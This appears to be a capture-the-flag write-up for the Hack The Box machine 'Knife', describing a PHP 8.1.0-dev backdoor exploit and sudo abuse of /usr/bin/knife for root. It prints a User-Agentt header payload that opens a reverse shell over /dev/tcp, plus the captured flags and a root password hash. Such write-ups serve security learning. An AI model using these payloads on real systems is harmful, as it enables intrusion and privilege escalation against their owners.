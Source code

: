 # Knife
Difficulty: Easy 	IP: 10.10.10.242

Saved the IP with domain as knife.htb in /etc/hosts.
Scanned the IP with rustscan and fot 22 and 80 open ports.
Got an entry point fron nikto scan: PHP 8.1.0-dev
Searched for its exploit and [got it](https://github.com/fahmifj/php-zerodium-rce/blob/main/zerodiumRCE.py).

## User.txt

From this exploit, I ran:
```
python3 foothold.py http://knife.htb/
```

Got a shell as james. User.txt was in his home directory.


```
bbda296ff7e4f54843a3b7b49498f0c2
```

This was not a complete stable shell. To get a stable shell, I used this [article](https://blog.csdn.net/qq_44159028/article/details/116992989).
Sent a request from browser to brupsuite and added a header to it.

```
User-Agentt: zerodiumsystem("bash -c 'exec bash -i /dev/tcp/10.10.14.28/4444 0>&1'");
```

And got a reverse shell as james.

## Root.txt

On running sudo -l, I came to know that we can run /usr/bin/knife as root.
When I ran it and saw help, I came to know how we can execute any command.

```
sudo /usr/bin/knife exec /path/to/ruby-script
```

I got the root.txt without actually getting root shell by creating a ruby script in local machine:

```
system('cat /root/root.txt')
```

Transfered it to target machine in james home directory.
Ran the script as:

```
sudo /usr/bin/knife exec ~/root.rb
```

```
a3aefe87f88ec3f8d683381c3af56f8d
```

## Root hash
```
$6$LCKz7Uz/FuWPPJ6o$LaOquetpLJIhOzr7YwJzFPX4NdDDHokHtUz.k4S1.CY7D/ECYVfP4Q5eS43/PMtsOa5up1ThgjB3.xUZsHyHA1
```
